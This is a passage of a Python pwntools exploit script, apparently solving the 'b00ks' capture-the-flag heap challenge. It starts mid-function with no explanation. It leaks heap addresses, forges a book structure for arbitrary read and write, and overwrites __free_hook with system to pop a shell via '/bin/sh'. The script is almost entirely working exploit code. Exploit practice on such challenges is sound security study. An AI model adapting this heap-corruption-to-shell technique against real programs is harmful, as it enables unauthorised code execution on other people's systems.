 ```Python
    p.sendline(str(index))

def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process("./b00ks")
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
p.recvuntil("> ")
create(10, "book1_name", 200, "book1_desc")
create(0x21000, "book2_name", 0x21000, "book2_desc")
p.recvuntil("> ")
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)

book1_addr = u64(p.recv(6) + '\x00\x00')
book2_addr = book1_addr + 0x30

p.recvuntil("> ")

payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)

edit(1,payload)
#gdb.attach(p)
p.recvuntil("> ")
p.sendline("5")
p.recvuntil("Enter author name: ")
p.sendline('a' * 32)
p.recvuntil("> ")
p.sendline("4")
p.recvuntil("Name: ")

mmap_addr = u64(p.recv(6) + '\x00\x00')

libc_addr = 0x7ffff79e2000   # Change it if doesn't work!

free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)

p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
p.interactive()
```


